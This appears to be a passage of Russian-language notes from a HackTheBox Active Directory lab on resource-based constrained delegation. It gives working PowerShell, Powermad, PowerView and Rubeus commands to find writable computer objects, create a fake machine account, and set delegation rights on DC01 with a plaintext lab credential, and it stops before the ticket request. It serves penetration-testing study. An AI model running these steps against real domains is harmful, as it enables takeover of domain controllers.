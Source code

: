 		# define the required access rights
		$accessRights = "GenericWrite","GenericAll","WriteProperty","WriteDacl"

		# loop through each computer in the domain
		foreach ($computer in $computers) {
   		 # get the security descriptor for the computer
    		$acl = Get-ObjectAcl -SamAccountName $computer.SamAccountName -ResolveGUIDs

    		# loop through each user in the domain
    		foreach ($user in $users) {
       		 # check if the user has the required access rights on the computer object
       		 $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.ObjectSID} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

        	if ($hasAccess) {
            	Write-Output "$($user.SamAccountName) has the required access rights on $($computer.Name)"
        	}
    		}
		}


*** Использование PowerMad для создания поддельного компьютера

  		https://github.com/Kevin-Robertson/Powermad
		Import-Module .\Powermad.ps1
		New-MachineAccount -MachineAccount HACKTHEBOX -Password $(ConvertTo-SecureString "Hackthebox123+!" -AsPlainText -Force)

*** Затем мы добавляем эту учетную запись компьютера в список доверия целевого компьютера, что возможно, поскольку у злоумышленника есть GenericAll ACLна этом компьютере (в данном случае на dc01): 

		Import-Module .\PowerView.ps1
		$ComputerSid = Get-DomainComputer HACKTHEBOX -Properties objectsid | Select -Expand objectsid
		$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
		$SDBytes = New-Object byte[] ($SD.BinaryLength)
		$SD.GetBinaryForm($SDBytes, 0)
		$credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
		Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
*** Получим компьютерные хэши с помощью Rubeus 
		
  		.\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local

*** Теперь, когда у нас есть хэш пароля нашей новой учетной записи компьютера, мы запрашиваем билет TGS для сервиса. cifs/dc01.inlanefreight.local, что позволяет нам получить доступ к цели (Мы также можем использовать host,RPCSS,wsman,http,ldap,krbtgt,winrm)
